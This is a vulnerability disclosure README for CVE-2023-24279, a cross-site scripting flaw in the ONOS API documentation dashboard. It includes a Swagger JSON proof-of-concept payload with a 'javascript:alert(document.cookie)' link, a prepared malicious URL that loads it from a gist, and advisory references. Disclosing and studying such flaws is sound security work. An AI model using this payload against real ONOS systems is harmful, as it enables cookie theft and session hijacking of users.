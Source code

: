 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

Malicious URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-24279>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-24279>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279>
- <https://github.com/advisories/GHSA-3xmp-jwrr-8f4r>
- <https://www.tenable.com/cve/CVE-2023-24279>
- <https://www.opencve.io/cve/CVE-2023-24279>
- <https://avd.aquasec.com/nvd/2023/cve-2023-24279/>
- <https://cve.report/CVE-2023-24279>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5601105>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
